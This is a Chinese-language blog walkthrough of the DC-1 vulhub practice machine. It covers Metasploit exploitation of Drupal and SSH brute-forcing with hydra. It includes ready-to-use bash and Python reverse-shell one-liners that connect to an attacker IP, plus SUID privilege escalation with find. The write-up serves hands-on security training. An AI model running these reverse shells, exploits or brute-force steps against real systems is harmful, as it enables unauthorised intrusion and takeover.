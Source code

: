 ```yaml
---
title: vulhub靶机练习-DC1
date: 2020-10-16 14:15:50
tags: [vulhub靶机,DC,drupal,后渗透]
categories: vulhub靶机
---
```


## DC-1靶机

#### 收集信息

> nmap 探测结果中rebots泄露了一些文件，端口开放的不多，直接访问80端口
>
> ![image-20201016142119176](vulhub靶机练习-DC1/image-20201016142119176.png)
>
> 

### 利用metasploit攻击

> 搜索drudal
>
> ![image-20201016142242158](vulhub靶机练习-DC1/image-20201016142242158.png)
>
> `use 4`
>
> `set rhosts xxxx`
>
> 使用默认的payload反弹shelll
>
> `run`
>
> ![image-20201016142435054](vulhub靶机练习-DC1/image-20201016142435054.png)
>
> 尝试多种方式反弹shell，获取交互式的shell
>
> > 1. bash反弹shell
> >
> >    * 攻击机监听
> >
> >      `nc -lvnp 1234`
> >
> >    * 靶机设置为
> >
> >      `bash -i >& /dev/tcp/192.168.191.128/1234 0>&1`
> >
> > 2. python反弹shell
> >
> >    * 攻击机
> >
> >      `nc -lvnp 1234`
> >
> >    * 靶机
> >
> >      `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.191.128",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
> >
> > 3. python 半交互式shell
> >
> >    * `python -c 'import pty; pty.spawn("/bin/bash")'`
> >
> >    
> >
> > python -c 'import pty; pty.spawn("/bin/bash")'



### 提权

> ***采用suid提权***
>
> > * 寻找具有suid权限的文件命令
> >
> >   `find / -type f -perm -u=s 2>/dev/null`
> >
> >   > `-perm`:权限设置
> >   >
> >   > `-f`：普通文件
> >
> > * 利用find命令提权
> >
> >   > `touch test`
> >   >
> >   > `find / -type f -name test -exec "whoami" \;`
> >   >
> >   > ![image-20201019145037640](vulhub靶机练习-DC1/image-20201019145037640.png)

### 获取flag

> ![image-20201019145408905](vulhub靶机练习-DC1/image-20201019145408905.png)
>
> 
>
> ***flag1***
>
> > 目录下有flag1.txt，提示信息而已
> >
> > ![image-20201019144308136](vulhub靶机练习-DC1/image-20201019144308136.png)
>
> ***flag4***
>
> ![image-20201019145541063](vulhub靶机练习-DC1/image-20201019145541063.png)
>
> 根据flag1寻找配置文件，发现文件setting.php
>
> ![image-20201019145744532](vulhub靶机练习-DC1/image-20201019145744532.png)
>
> 登陆数据库发现了admin加密，利用drupal注入漏洞添加一个admin
>
> ` searchsploit drupal`
>
> 
>
> ![image-20201019151600920](vulhub靶机练习-DC1/image-20201019151600920.png)
>
> shadow中发现了![image-20201019152610523](vulhub靶机练习-DC1/image-20201019152610523.png)falg4用户
>
> 利用hydra爆破ssh得到密码
>
> ![image-20201019153126089](vulhub靶机练习-DC1/image-20201019153126089.png)
>
> ssh登陆得到flag4
>
> ![image-20201019153235890](vulhub靶机练习-DC1/image-20201019153235890.png)
>
> ***flag3***
>
> ![image-20201019151828573](vulhub靶机练习-DC1/image-20201019151828573.png)
>
> 得到最终的flag
>
> ![image-20201019153714326](vulhub靶机练习-DC1/image-20201019153714326.png)
>
> ***

### 总结

> ***靶机难度***：⭐
>
> ***知识点：***
>
> * suid提权
>
> * msf命令
>
> * 反弹shell
>
> * drupal 注入漏洞和命令执行漏洞
>
> * hydra爆破